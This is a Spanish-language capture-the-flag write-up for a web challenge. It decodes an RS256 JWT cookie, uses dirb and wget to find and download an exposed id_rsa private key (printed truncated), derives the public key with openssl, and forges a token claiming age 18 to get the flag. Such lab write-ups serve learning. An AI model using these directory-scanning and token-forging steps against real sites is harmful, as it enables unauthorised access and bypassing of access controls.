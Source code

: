 <h1 align="center">
    🍻 JaggerWhiskyTequila II 🍻
</h1>

## 💭 Concepto

Cuando se accede a la web, se pueden observar el mismo contenido que en el reto anterior ([JaggerWhiskyTequila](./JaggerWhiskyTequila.md)). Al intentar comprar una, nos redirige a la URL `/compra` donde nos aparece el siguiente mensaje:

> No tienes +18 años

Exactamente igual que antes, si comprobamos las cookies, encontraremos una con el nombre de `cliente` y un valor similar al este:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJlZGFkIjoxOH0.wy2HzlTakbUXb0BFEw1nVI5ItrXdDxQ-UpmNV9_KuN1MBH5UwKNPoebu4Nn7k0jw3GFWoXTnIhQcrvPEH_Xj6LwMk716EAm8n7uSp_XWKNjZTlzKm0_IhW_k3YnQxd9hAYDH8OpiaU4o4ubhBGWX3qbBWwc1ZUxOYfu29lAons3e3oAKd7u1-YF4oHsik29OrdDKU5A12hkQoygRs7XCVYHQMTlHjM6tyD0RiAJn20TIwD6RxXQlpJib7_RkJpk3SEmIqrWyto3OwfRmehVJ-qToJmvAAVsHaqDYEzZEiFXIDNlI6W71R0UpRU8XvlUxXa5WGM9fhVF5rgNc7aNVzdt-Y1xf3UAv68_vmmPcsvjyw9DpnGDQCMXBObqP0HV3zpFUuak33ZB4EVZRXq9MFkvsj2CXY58cHh4psppF6vmIR7-tOfTqLkg6G2FUhDOTn_x6mDRZ1xOWio8gK1qt5Mf3rml3KSDGWae0vdcFfihMIyyO5-0V-5WSYopH409tJw20vzZm6AsrhPW9RZiczK0efZRCXa22Tb5j9c03Cewt4JQ6Xcj6s-eiBW_99XQUkcpivshaHtKSwzaSFLNfBhwjir7dpug_DVejEF4XJ_62Qu6jWPTa0UPa_oor6p8uXwkzMCC5-g4oVGxLuoTp1f42VUkK4UFKiUZVb0g3tzk
```

Ya sabemos que el reto estará basado en vulnerabilidades conocidas de `JWT`. Además, si accedemos a la página raíz, podemos encontrar el siguiente comentario en el código fuente:

```html
<!-- Como la última vez nos hackearon, he generado una llave pública y otra privada para evitar que vuelva a suceder -->
```

## 📜 Teoría

Lo primero de todo es decodificar la cookie. Para ello podemos hacer uso de herramientas online, como [JWT.io](https://jwt.io/), o segmentar la cadena según el delimitador (en este caso, un punto), dado que JWT sigue el siguiente formato:

<h1 align="center">
    <img alt="JWT Format" src="../.img/jwt-format.webp" />
</h1>

En el **Header** se especifica el tipo de formato que se utiliza, así como el algoritmo a usar para cifrar/descifrar los datos.

En el caso del reto, la información obtenida es la siguiente:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9" | base64 -d
# {"typ":"JWT","alg":"RS256"}
```

> `RS256` indica que el **Payload** está cifrado usando claves asimétricas

Si hacemos lo mismo con el segundo fragmento, podemos obtener la información guardada actualmente en la cookie:

```sh
echo -n "eyJlZGFkIjoxN30" | base64 -d
# {"edad":17}
```

Como vimos en la página de `/compra`, el mensaje nos indicaba que no teníamos más de 18 años. Ya sólo queda buscar la manera de modificar el valor de la cookie para especificar una edad mayor.

> Como se trata de una versión mejorada de un reto anterior, evitaremos intentar explotaciones antiguas

## 💣 Explotación

La vulnerabilidad de este reto no se encuentra en el `JWT` en sí, sino en la premisa de que sabiendo qué clave se ha usado durante el cifrado, seremos capaces de modificar el **Payload**.

---

```yml
Vulnerabilidad: Claves privadas leakeadas
```

Aunque no es habitual encontrarse este fallo en entornos reales, hay veces que los desarrolladores cometen descuidos a la hora de subir los archivos que conforman una página web.

Siendo la URL del reto `http://ctf.kike.wtf:2010/`, ejecutaremos `dirb` con el fin de encontrar algún fichero oculto:

```sh
dirb http://ctf.kike.wtf:2010/
```

El resultado será similar a esto:

```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Dec  8 11:13:02 2020
URL_BASE: http://ctf.kike.wtf:2010/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://ctf.kike.wtf:2010/ ----

+ http://ctf.kike.wtf:2010/id_rsa (CODE:200|SIZE:3243)
+ http://ctf.kike.wtf:2010/robots.txt (CODE:200|SIZE:25)

-----------------
END_TIME: Tue Dec  8 11:13:08 2020
DOWNLOADED: 4612 - FOUND: 2
```

Llama la atención el archivo `id_rsa`. Para descargarlo, basta con acceder al enlace o utilizar herramientas como `wget`:

```sh
wget http://ctf.kike.wtf:2010/id_rsa
```

El contenido del archivo nos indica que es una clave privada:

```
-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgEA18Ra2jDgHFRkuOgx4y4jhAzbt112/RRblmqpB31//CHOp/H8
FFO2eMI4TSxCUtMyODbJw6GhxCi0bCBKNfPIM8liMIm9337cza3rVyYmK/6nqPXH
5HXj6KFflpoRekg5Oy8+wBmwPzYjvcRKUGr2TqKdpvSSseYL/7m3na7UDuiX34hE
    ... ... ...
AVN9BjTW6DZ/9RcOfStMoxee4Lf43hSkTh6EC4M3IHGWzCfQSFItbgsM9HjZFacY
FK4JJgp3NUIfabVey+20datpoFlcNp6RfImCnHxxso70QUOMOJku5StQbNcGY5WI
hC3nxCzxssVRJFh8K2hCPv+KKgPOLozIVcJqia1CzSdmU46PkRoE30xCQXW8
-----END RSA PRIVATE KEY-----
```

Para modificar el **Payload** necesitamos también la clave pública. Para ello, podemos recuperarla a partir de la clave privada usando el siguiente comando:

```sh
openssl rsa -in id_rsa -pubout -outform PEM -out id_rsa.pub
```

Una vez hecho esto, haremos uso de herramientas online como [JWT.io](https://jwt.io) para modificar el contenido. El resultado será algo similar a esto:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJlZGFkIjoxOH0.c5Ey9cWn2zAfHgZEySSPzWrph7LFnoC-UvsuZwFF2g9c6vY8bvq_8D83VC6n-FDHefkZZVKYFxUMDXSP63jr60Ob2P9ubifDglFQ_kRpFJ4lYJoPxKo2wrcNJahV9mQVgkh9Jj9GW0rvrRjGlKm6_cZ3dp3S8xVHcMs_AIlDsImwP-U-QcHgcZBTaez0JtXkHNPikIhk4nFJzTnaczLqNjEmZuxSDy_gL70_2RFyemhX5upjTxWtfiTRdX_xtbpWUDAsiEOeDbnbv6qJVvBkwiwi1f0bPlxaxmebTIB4Jx0DSQie0iXTAWXcsf1jjvK-3dfnFdESUNSx2AoEmChHp56YBiYzd-xIrZSsjJlsVZrFDvUkdVVKogrGWeC1wAnvt8jCzTYHfsI1Ul_2onF6RDbSNRIyexBT8Bkxkrc3nkT3ng5679Qp9oGNISD4DGqB5e7rnSJFXtUJWCyNUcud_vZ11PjFjYh5Ggt4BvhWCAeZY36tURDwhXXQEVXQ56XTL4NsPeK8-S63w1cRCnimxx8KXWGeg0WJerQJp67-IGF_nSNC6cw6IWz7It8Sg5_FDZXOmDR65Lv4F9XzuopIC1NXt1BZKmGydT2Aorx4yfEt-Dnkq_0Hk_QgldfKrvKB4sgV4o64uOTug1TTihIh3vGWTp816UL1_FmIa6zkKUI
```

> Las claves públicas y privadas se regeneran de vez en cuando, por lo que es posible que las usadas en esta solución no coincidan con las del reto.

Igual que antes, sólo queda reemplazar el nuevo token en la página y recargar para obtener la `flag`.

## 🏁 Flag

```
pumaCTF{mY_pr1vat3_add1ct10n}
```